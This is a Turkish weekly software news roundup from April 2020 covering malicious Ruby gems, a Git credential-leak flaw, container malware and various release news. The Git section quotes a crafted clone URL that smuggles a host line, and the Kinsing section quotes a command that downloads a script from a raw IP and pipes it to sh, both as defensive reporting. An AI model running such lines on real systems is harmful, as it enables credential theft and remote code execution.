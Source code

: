 #+TITLE: Yazılım Gündemi - 2020/15
#+SUBTITLE: 13-19 Nisan 2020
#+AUTHOR: Eren Hatırnaz
#+DATE: 19 Nisan 2020
#+OPTIONS: ^:nil
#+LANGUAGE: tr
#+LATEX_HEADER: \hypersetup{colorlinks=true, linkcolor=black, filecolor=red, urlcolor=blue}
#+LATEX_HEADER: \usepackage[turkish]{babel}
#+HTML_HEAD: <link rel="stylesheet" href="../../../css/org.css" type="text/css" />
#+LATEX: \shorthandoff{=}

[[file:gorseller/yazilim-gundemi-banner.png]]

#+BEGIN_CENTER
[[file:../14/yazilim-gundemi-2020-14.org][< Önceki Gündem]] | *13-19 Nisan 2020* | [[file:../16/yazilim-gundemi-2020-16.org][Sonraki Gündem >]]

[[https://teknoseyir.com/blog/yazilim-gundemi-2020-15][TeknoSeyir'de Oku]]
#+END_CENTER

* 725 adet zararlı Ruby kütüphanesi [[https://www.zdnet.com/article/clipboard-hijacking-malware-found-in-725-ruby-libraries/][RubyGems üzerinden kaldırıldı]]
	Büyük ve orta ölçekli uygulamaları üçüncü parti kütüphane kullanmadan
	geliştirmenin pek mümkün olmadığı günümüz yazılım ekosisteminde, kötü amaçlı
	kişiler artık sadece son kullanıcıları değil, biz geliştiricileri de hedef
	alıyorlar. ReversingLabs isimli güvenlik firmasının bu hafta yayınladığı [[https://blog.reversinglabs.com/blog/mining-for-malicious-ruby-gems][bir
	blog yazısı]] 2020 Şubat ayında yaşanmış ve çözümlenmiş bir olaya ışık tutuyor.

	ReversingLabs firması Şubat ayında 725 adet yeni RubyGems (Ruby programlama
	dilinin üçüncü parti kütüphaneleri kayıt etmek için kullandığı sistem) kaydı
	tespit etmişler ve incelediklerinde de bu kütüphanelerin kötü amaçlı kod
	satırları içerdiklerini keşfetmişler. "/JimCarrey/" ve "/PeterGibbons/"
	şeklinde takma isimlerle RubyGems üzerinden paylaşılmış, isim oyunu içeren bu
	kütüphaneler güvenlik firmasının tespit etmesi ve RubyGems'e bildirmesi
	üzerine sistemden silindiler fakat silinene kadar geçen süre boyunca binlerce
	kez indirildikleri de gözden kaçmıyor. RubyGems üzerinden silinen bu
	kütüphanelerin tam listesi için [[https://blog.reversinglabs.com/hubfs/Blog/ruby_malicious_gems.txt][buraya tıklayabilirsiniz]].

	Kötü amaçlı kişiler yine isim oyunları yaparak aradan sıvışmaya çalışmışlar.
	Mesela "atlas_client" isimli bir kütüphanenin sahtesini "atlas-client" ismiyle
	yayınlamışlar. Peki ne yapıyor bu kötü amaçlı kütüphaneler?

	#+CAPTION: Zararlı yazılımın sisteme nasıl eklendiğini gösteren akış şeması.
  #+CAPTION: Kaynak: [[https://blog.reversinglabs.com/blog/mining-for-malicious-ruby-gems][ReversingLabs]]
	[[file:gorseller/ruby-zararli.png]]

	Bu kütüphanelerin yaptığı şey Windows sistemlere bilgisayarın açılmasıyla
	birlikte çalışacak bir Clipboard Hijack betiği kuruyor. Yani kes, kopyala,
	yapıştır gibi işlemlerin yapılabilmesini sağlayan "pano" sistemini manipüle
	ediyor. Bilgisayarınızın arkaplanında çalışan bu Visual Basic betiği sonsuz
	döngüye girmiş şekilde sürekli panoya kopyaladığınız metinleri kontrol ediyor,
	eğer bunun bir BitCoin cüzdanı adresi olduğunu anlarsa, o metini başka bir
	BitCoin cüzdanı adresi ile değiştiriyor. Yani kısaca sizin başkasına
	göndereceğiniz parayı kendisine aktarmak istiyor.

	Yine güvenlik firmasının açıklamasına göre saldırganın ilgili BitCoin
	cüzdanına hiçbir para transferi gerçekleşmemiş. Zaten düşük bir olasılıktı.
	Yazdığın sahte kütüphaneyi Windows kullanan bir yazılım geliştirici indirecek,
	o yazılım geliştirici BitCoin'i aktif olarak kullanıyor olacak ve bir para
	tranferi yapacağı zaman adamın panosunu manipüle edip, parayı kendine
	çekeceksin. Ohoo... Ölme eşeğim ölme. İlginç bir kafa gerçekten. Saldırgan
	amacına ulaşamadan gönderdiği sahte kütüphaneler silinmiş ama eğer
	indirilmişse sizin bilgisayarınızdan silinmemiştir. Ruby dili üzerinde aktif
	geliştirme yapıyor ve Windows kullanıyorsanız sisteminizle birlikte başlayan
	uygulamaları bir kontrol etmenizde fayda var.
* Zararlı URL ile şifre çalmaya yarayan [[https://github.com/git/git/security/advisories/GHSA-qm7j-c969-7j4q][Git açığı kapatılı]]
	Google'ın Project Zero isimli güvenlik takımı tarafından ortaya çıkarılan ve
	[[https://bugs.chromium.org/p/project-zero/issues/detail?id=2021][raporlanan güvenlik açığı]] bu hafta içerisinde yayınlanan Git sürümleriyle
	birlikte kapatıldı. CVE numarası: [[https://nvd.nist.gov/vuln/detail/CVE-2020-5260][CVE-2020-5260]]

	Git bazı kimlik doğrulama işlemleri için işletim sistemi tarafından sağlanmış
	harici yardımcı araçları kullanıyor. Fakat "git clone" gibi komutlardan
	girilen zararlı URL'ler, bu harici kimlik doğrulama araçlarında hata yol açıp,
	sistemde kayıtlı kimlik bilgilerini (kullanıcı adı, şifre, ssh anahtarı vb.)
	başka bir sunucuya yönlendirebiliyor. Örnek vermek gerekirse:

	#+BEGIN_SRC shell
    git clone 'https://example.com?%0ahost=github.com'
	#+END_SRC

	şeklinde çalıştırılan bir komut =github.com= için depolanmış kimlik
	bilgilerini =example.com= sitesine yönlendiriyor. Elbette benim gibi siz de
	ilk bakışta "böyle bariz şüpheli bir komutu kim, niye çalıştırsın?"
	diyebilirsiniz fakat bu bağlantılar her zaman böyle açık şekilde olmuyor.
	Örneğin, bir depo içerisine başka bir depoyu eklemeye yarayan Git'in Submodule
	sistemi böyle bir zaafiyete kurban gidebilir. Siz depoyu normal bir şekilde
	sunucudan bilgisayarına çekebilirsiniz fakat Git, Submodule olarak eklenen
	diğer depoları çekerken böyle bir bağlantı ile karşılaşırsa haberiniz
	olmayabilir.

	Neyse ki bu güvenlik sorunu halka açık olarak paylaşılmadan önce kapatılmış.
	Git versiyonlarınızı güncelleyerek olası bir zararın önüne geçmiş olursunuz.
	Eğer Git versiyonunuzu yükseltebilecek durumda değilseniz aşağıdaki şeyleri
	yapmanızda fayda var:

	 * Bu komutları çalıştırarak Git'in harici kimlik doğrulama yardımcılarını
     kullanmasını önleyebilirsiniz:
       #+BEGIN_SRC shell
         $ git config --unset credential.helper
         $ git config --global --unset credential.helper
         $ git config --system --unset credential.helper
    	  #+END_SRC
	 * İndirdiğiniz depolar içerisindeki =.gitmodules= dosyasını inceleyebilir ve
     şüpheli bir durum görmezseniz işlemlerinize devam edebilirsiniz.

	Güvenlik açığı hakkında daha detaylı bilgi edinmek isterseniz konu başlığına
	eklediğim bağlantıya ya da Google'ın Project Zero takımının [[https://bugs.chromium.org/p/project-zero/issues/detail?id=2021][şu yazısına]] göz
	atabilirsiniz.
* Konteynerleri tehdit eden [[https://blog.aquasec.com/threat-alert-kinsing-malware-container-vulnerability][yeni bir zararlı yazılım]]: Kinsing Malware
	Linux çekirdeğinin içerisinde olan fakat Docker ile birlikte popülerliği
	artmış olan konteyner yapısı artık günümüzde birçok şirket ve kurum tarafından
	kullanılıyor. Yeni teknolojiler biz geliştiricilerin olduğu gibi kötü amaçlı
	kişilerin de ilgisini çekiyor. Aqua isimli konteyner güvenliği üzerine çalışan
	firmanın geçtiğimiz hafta blogunda yayınladığı yazı ile konteyner içerisinde
	kripta para madenciliği yapan yeni bir malware ortaya çıktı. İsmine "Kinsing"
	demişler.

	Bu malware yazılımının sisteminize sızabilmesi için bir kriter var. O da
	yanlış ayarlanmış ve açık bırakılmış Docker Daemon API'sinin portu. Kötü
	amaçlı kişiler bu açık portu otomatik olarak bulan ve kendi amacı için
	kullanan exploit geliştirmişler. Bu exploit'in yaptığı ilk iş yeni bir Ubuntu
	konteyner'i oluşturmak ve içerisinde aşağıdaki komutu çalıştırmak:
  #+ATTR_LATEX: :options frame=lines, linenos, label=Bash
	#+BEGIN_SRC bash
    /bin/bash -c apt-get update && apt-get install -y wget cron;service cron start; wget -q -O - 142.44.191.122/d.sh | sh;tail -f /dev/null
	#+END_SRC
	GNU/Linux sistemlere aşina olmayanlar için açıklamak gerekirse bu komutun
	yaptığı iş:
	 1. =apt-get update=: Tüm paket depolarını güncelliyor.
	 2. =apt-get install -y wget cron=: *wget* ve *cron* araçlarını kuruyor.
	 3. =wget -q -O - 142.44.191.122/d.sh | sh=: *wget*'i kullanarak asıl zararlı
      yazılımı indiriyor ve çalıştırıyor.
	 4. =tail -f /dev/null=: /dev/null dosyasını sürekli yazdırarak konteyner'i
      ayakta tutmaya çalışıyor.

	Asıl zararlı yazılım ise bazı güvenlik duvarlarını devre dışı bırakarak
	kendini genişletmeye ve sistem kaynaklarınızı kullanarak kripto para
	madenciliği yapıyor.

	#+CAPTION: Zararlı yazılımın tüm süreçlerini gösteren diyagram.
  #+CAPTION: Kaynak: [[https://blog.aquasec.com/threat-alert-kinsing-malware-container-vulnerability][Aqua]]
	[[file:gorseller/docker-kinsing.jpg]]

	Eğer kişisel olarak ya da firmanızda Docker kullanıyorsanız gerekli
	kontrolleri yapmayı ihmal etmeyin. Zararlı yazılım hakkında daha detaylı bilgi
	ve önlemler için konu başlığına eklediğim bağlantıya tıklayabilirsiniz.
* Bakan Varank: "[[https://www.sanayi.gov.tr/medya/haber-detayi/gLAYI4bI8x59][Yazılım Okulları Açacağız]]"
	Geçtiğimiz haftaki yazılım gündemi yazısını (bkz: [[file:../14/yazilim-gundemi-2020-14.org][Yazılım Gündemi - 2020/14]])
	son anda güncelleyerek "[[https://www.acikseminer.com/][Açık Seminer]]" etkinliğinin başlayacağını duyurmuştum.
	Etkinlik önümüzdeki haftalarda da devam edecek. Bu etkinliklerin ilk gününde
	Sanayi ve Teknoloji Bakanı Mustafa Varank da katılım gösterdi ve bazı
	açıklamalarda bulundu. Özetleyecek olursak:

	 * "[[https://www.turkiyeacikkaynakplatformu.com/][Türkiye Açık Kaynak Platformu]]nda 60'ı aşkın şirket, 50'den fazla
     üniversite, sektör temsilcisi STK ve topluluk üyesi binlerce yazılımcı
     bulunuyor. Burada sadece yazılım geliştirenler değil, yeni teknolojilerde
     yazılım ihtiyacı olan şirketler de bizim paydaşımız. Platform aracılığıyla
     ihtiyaç sahibiyle yazılım geliştiricileri bir araya getiriyoruz".
	 * Platformun gelecek 2 yıllık çalışma programı hazır.
	 * Bilişim Vadisi ve TÜBİTAK-TÜSSİDE ile birlikte yürütülen bu programa,
     İstanbul ve Doğu Marmara kalkınma ajanları 30 milyon liralık katkı
     sunacakmış.
	 * 2023 Sanayi ve Teknoloji Stratejisi kapsamında 500.000 yazılımcı ve
     yazılımda küresel ürünler geliştiren bir ülke olma hedefi var. Şu an
     ülkemizde 150.000'in üzerinde yazılım geliştirici varmış.
	 * İstanbul'da ve Bilişim Vadisi'nde Yazılım Okulları açılacakmış.
	 * "Seminer programının ardından, farklı yaş gruplarını ve yetkinlikleri
     hedefleyen eğitim programlarımız başlayacak. Eğitimleri başarıyla
     tamamlayan katılımcılara, dijital rozet vereceğiz"

	Diğer birçok ülkenin de açık kaynak ve yazılımla ilgili doğrudan kurumlar
	kurduğu günümüz ekosisteminde bence doğru bir hareket. Ülke olarak bu akımı
	yakalayabilmiş olmak umut vaat ediyor. Umarım ilerleyen süreçlerde planlar
	hakkında daha detayları açıklamalar da gelir. Her ne kadar "Açık Kaynak"tan
	ziyade "Özgür Yazılım" kavramını daha çok destekliyor olsam da devletlerin
	"Açık Kaynak" tarafına yönelmesini de anlayabiliyorum.

	Önümüzdeki haftalarda da devam edecek "Açık Seminer" etkinliklerini takip
	etmek için bu sayfayı ziyaret edebilirsiniz: https://www.acikseminer.com/
* GitHub takımlar için de [[https://github.blog/2020-04-14-github-is-now-free-for-teams/][ücretsiz oldu]]
	Geçtiğimiz yazılım gündemi yazılarının birinde GitHub'da kullanıcı olarak özel
	depo (private repository) açmanın ücretsiz olduğunu konuşmuştuk diye
	hatırlıyorum (hangi yazı olduğunu bulamadım :) ). Bu hafta ise GitHub
	yayınladığı blog yazısı ile birlikte artık takımlar içi de GitHub Free
	paketinin bulunduğunu açıkladı. Ayrıca GitHub Teams paketinin kullanıcı başına
	aylık $9 olan ücretini de $4 olarak güncelledi.

	Ücretsiz paketle birlikte artık özel depoların temel tüm özelliklerine
	ücretsiz olarak erişebilecek firmalar. Ayrıca 500MB GitHub Packages ve 2.000
	dakika GitHub Actions hizmetleri de ücretsiz pakete dahil. Ücretli olarak
	kullanmaya devam edecek ve yıllık olarak GitHub Teams satın almış firmalar
	ve organizasyonlar için de kalan ayların ücretleri de iade edilecek.

  #+ATTR_HTML: :height 400
  #+ATTR_LATEX: :height 7cm
	#+CAPTION: Ücretli GitHub Teams paketinden ücretsiz pakete geçerken kaybedilen özellikler
	[[file:gorseller/github-free-limits.png]]

	Yukarıdaki görselde de görebileceğiniz gibi birçok faydalı özellik ücretsiz
	sürümde yok. Bu özelliklere ihtiyaç duyan firmalar ve kurumların geçiş
	yapacaklarını sanmıyorum ama "bunlar olmasa da olur" diyenler için iyi bir
	tasarruf.
* Google Play Store Policy [[https://www.androidpolice.com/2020/04/16/play-store-app-policy-changes-misleading-subscriptions-android-11-location/][güncellendi]]: Arka planda konum servisi kullanan uygulamalar özel izin almak zorunda
	Google'ın Android için uygulama ve içerik mağazası olan Play Store'da uygulama
	yayınlamak için uyulması gereken Policy dokümanı güncellendi. Artık
	kullanıcıya bir süreliğine ücretsiz sunulan daha sonra ücretli hale gelen
	uygulamalar detay vermek zorunda ve ondan da önemlisi artık uygulamanız
	arka planda konum servisini kullanmak istiyorsa Google'dan özel olarak izinli
	olması gerekiyor.

	#+CAPTION: Artık uygulamanız kullanıcıya soldaki gibi ücretsiz süreç hakkında
  #+CAPTION: detaylı bilgiler vermek zorunda, sağdaki kullanıma izin verilmiyor.
	[[file:gorseller/play-store-policy.png]]

	Eğer kullanıcılar yine de dikkatsiz davranıp bu açıklamaları görmezden gelirse
	diye Google önlemini almış. Ücretsiz kullanım süreci bitmeden önce kullanıcıya
	e-posta atarak durum hakkında bilgi vermek zorundasınız. Ayrıca aktif
	aboneliği olan fakat uygulamayı silmiş kullanıcılar da bildirimlerle
	uyarılacakmış, "uygulamayı silmek abonelikten çıkmak anlamına gelmiyor"
	şeklinde. Bence gayet yerinde uygulamalar.

	Diğer bir konumuz ise arka planda konum bilgilerini kullanan uygulamaları
	ilgilendiriyor. Artık uygulamanız arka planda konum bilgilerine de erişmek
	istiyorsa özel olarak Google'a başvurmanız ve beyaz listeye (whitelist)
	girebilmek için Google'ı neden arka planda konum bilgisine ihtiyaç duyduğunuz
	konusunda ikna etmeniz gerekiyor. Reklam gösterme ve analiz için kullanımlar
	kabul edilmeyecekmiş. Yani Google diyor ki: "Benim dışımda kimse
	kullanıcıların konum bilgileriyle reklam gösteremez ve analiz yapamaz". Pek
	şaşırdığımı söyleyemem açıkcası.

	Arka planda konum bilgisini alıp bunu kötüye kullanan uygulamaların olduğu bir
	gerçek elbette fakat bu sorunun önüne geçmek için uydurulan çözüm bana biraz
	sakıncalı geldi. Eğer Google'ın kendi çözümü olan bir alanda hizmet veriyorsak
	(yani bir nevi Google'a rakipsek), Google bizim uygulamamızı beyaz listeye
	eklemeyebilir. Nitekim reklam gösterme ve analiz için en başından kısıtlanmış
	zaten. Bu sürecin şeffaflığı nasıl sağlanacak? sorusunun sorulması önemli.

	Bu konuda siz ne düşünüyorsunuz. Yorumlar bölümünde konuşalım.

	Arka planda konum bilgisi kullanımı için daha detaylı bilgi için Google'ın
	hazırladığı [[https://support.google.com/googleplay/android-developer/answer/9799150][bu sayfayı]] ziyaret edebilirsiniz.
* JetBrains birçok IDE ve aracı için 2020.1 sürümünü yayınladı
	JetBrains firmasının Nisan ayı itibariyle yayınladığı güncellemeler bu
	şekilde:

  |------------------------+------------------------|
  | IDE'ler                | Araçlar                |
  |------------------------+------------------------|
  | * [[https://blog.jetbrains.com/phpstorm/2020/04/phpstorm-2020-1-release/][PhpStorm 2020.1]]      | * [[https://www.jetbrains.com/resharper/whatsnew/][ReSharper 2020.1]]     |
  | * [[https://www.jetbrains.com/clion/whatsnew/][CLion 2020.1]]         | * [[https://blog.jetbrains.com/blog/2020/04/16/edutools-v-3-6/][EduTools 3.5]]         |
  | * [[https://www.jetbrains.com/datagrip/whatsnew/][DataGrid 2020.1]]      | * [[https://www.jetbrains.com/resharper-cpp/whatsnew/?mkt_tok=eyJpIjoiTUdRME9EQXhNMlppTWpKayIsInQiOiJiNGZFR2toVHl1ZDdWS3pMVUFcL1lOUkZiUUxtR2U3Wk9yRmVrWlp1SlVMS3VLd1FHUlpaVVdZV1k2RXBqSGF4NXVhQ1RhOERNVTA5UVFhb1U2SCsrZHgwMGdIc29KdVwvOUZVMzRPYTNTMUoxdWFOT3Q2eUN0M2Y5RmJFOHdHTXJTIn0%253D][ReSharper C++ 2020.1]] |
  | * [[https://www.jetbrains.com/idea/whatsnew/][IntelliJ IDEA 2020.1]] |                        |
  | * [[https://www.jetbrains.com/go/whatsnew/][GoLand 2020.1]]        |                        |
  | * [[https://www.jetbrains.com/pycharm/whatsnew/][PyCharm 2020.1]]       |                        |
  | * [[https://www.jetbrains.com/ruby/whatsnew/][RubyMine 2020.1]]      |                        |
  | * [[https://www.jetbrains.com/webstorm/whatsnew/][WebStorm 2020.1]]      |                        |
  | * [[https://www.jetbrains.com/rider/whatsnew/][Rider 2020.1]]         |                        |
  |------------------------+------------------------|
* "[[https://www.acikseminer.com/][Açık Seminer]]" etkinlikleri devam ediyor
	[[file:gorseller/acik-seminer.jpeg]]

	Bu haftanın programı:
	 * [[https://www.acikseminer.com/seminerler/pardus-temel-seviye-seminer-1gun-08f34754][PARDUS Temel Seviye Seminer (1.Gün)]]
	 * [[https://www.acikseminer.com/seminerler/pardus-temel-seviye-seminer-2gun-6f1799a0][PARDUS Temel Seviye Seminer (2.Gün)]]
	 * [[https://www.acikseminer.com/seminerler/pardus-temel-seviye-seminer-3gun-bb5381e0][PARDUS Temel Seviye Seminer (3.Gün)]]
	 * [[https://www.acikseminer.com/seminerler/pardus-uzerinde-python-kullanarak-domain-entegrasyonu-1gun-b62a1c6f][Pardus Üzerinde Python Kullanarak Domain Entegrasyonu (1.Gün)]]
	 * [[https://www.acikseminer.com/seminerler/pardus-uzerinde-python-kullanarak-domain-entegrasyonu-2gun-728376ec][Pardus Üzerinde Python Kullanarak Domain Entegrasyonu (2.Gün)]]
* Diğer Haberler
	- Programlama Yarışması: [[https://ku.acm.org/berkbingol/][Berk Bingöl Programming Contest]]
	- npm ve GitHub [[https://github.blog/2020-04-15-npm-has-joined-github/][birleşmesi tamamlandı]]. [[https://blog.npmjs.org/post/612764866888007680/next-phase-montage][Alternatif]] (bkz: [[file:../11/yazilim-gundemi-2020-11.org][Yazılım Gündemi -
    2020/11]])
	- Cloudflare Workers artık [[https://blog.cloudflare.com/cloudflare-workers-now-support-cobol/][COBOL destekliyor]].
	- ProtonMail Bridge [[https://protonmail.com/blog/bridge-open-source/][açık kaynak olarak yayınlandı]]. [[https://github.com/ProtonMail/proton-bridge][GitHub Deposu]]
	- Google, Kotlin için gRPC kütüphanesini [[https://cloud.google.com/blog/products/application-development/use-grpc-with-kotlin][açık kaynak olarak yayınladı]]:
    [[https://github.com/grpc/grpc-kotlin][grpc-kotlin]].
	- Microsoft, WSL2 (Windows Subsystem for Linux 2) sistemini Windows 10 version
    2004 ile birlikte [[https://www.infoq.com/news/2020/04/wsl-2-general-availability/][genel erişilebilir olacak]].
	- Rust 2019 anketi [[https://blog.rust-lang.org/2020/04/17/Rust-survey-2019.html][sonuçları yayınlandı]].
	- Ruby Concurrency Final Raporu [[https://www.codeotaku.com/journal/2020-01/ruby-concurrency-progress-report/index][yayınlandı]].
	- Dell BIOS saldırısı tespiti için [[https://www.zdnet.com/article/dell-releases-new-tool-to-detect-bios-attacks/][yeni bir araç yayınladı]].
	- VueJS [[https://github.com/vuejs/vue-next/releases/tag/v3.0.0-beta.2][v3.0.0 Beta 2 sürümü yayınlandı]].
	- jQuery [[http://blog.jquery.com/2020/04/10/jquery-3-5-0-released/][3.5.0 sürümü yayınlandı]].
	- Microsoft C++ takımı, [[https://devblogs.microsoft.com/cppblog/gsl-3-0-0-release/][GSL 3.0.0 sürümünü yayınladı]]. [[https://github.com/microsoft/GSL][GitHub Deposu]]
	- NodeJS [[https://nodejs.org/en/blog/release/v13.13.0/][v13.13.0 sürümü yayınlandı]].
	- Zig programlama dilinin [[https://ziglang.org/download/0.6.0/release-notes.html#Target-Details][0.6.0 sürümü yayınlandı]].
	- Lazarus [[https://forum.lazarus.freepascal.org/index.php?topic=49356.0][2.0.8 sürümü yayınlandı]].
	- D programlama dili takımından [[https://dlang.org/blog/2020/04/13/dustmite-the-general-purpose-data-reduction-tool/][yeni araç duyurusu]]: [[https://github.com/CyberShadow/DustMite][DustMite]].
	- Gloo [[https://www.solo.io/blog/announcing-gloo-1-3-developer-portal-extensibility-performance-and-usability/][1.3 sürümü yayınlandı]].
	- Earthly [[https://github.com/vladaionescu/earthly/releases/tag/v0.1.0][v0.1.0 sürümü yayınlandı]].
	- gbundle [[https://interrupt.memfault.com/blog/gdbundle-plugin-manager][aracı tanıtıldı]]. [[https://github.com/memfault/gdbundle][GitHub Deposu]]
	- Tide [[https://github.com/http-rs/tide/releases/tag/v0.7.0][0.7.0 sürümü çıktı]].
	- Logos [[https://github.com/maciejhirsz/logos/releases/tag/v0.11.0][0.11.0 sürümü çıktı]].
	- Boa [[https://github.com/jasonwilliams/boa/releases/tag/v0.7.0][0.7.0 sürümü çıktı]].
	- Blazorise [[https://blazorise.com/news/release-notes/090/][0.9 sürümü çıktı]].
* Lisans
  #+BEGIN_CENTER
  #+ATTR_HTML: :height 75
  #+ATTR_LATEX: :height 1.5cm
  [[file:../../../img/CC_BY-NC-SA_4.0.png]]

  [[file:yazilim-gundemi-2020-15.org][Yazılım Gündemi - 2020/15]] yazısı [[https://erenhatirnaz.github.io][Eren Hatırnaz]] tarafından [[http://creativecommons.org/licenses/by-nc-sa/4.0/][Creative Commons
  Atıf-GayriTicari-AynıLisanslaPaylaş 4.0 Uluslararası Lisansı]] (CC BY-NC-SA 4.0)
  ile lisanslanmıştır.
  #+END_CENTER
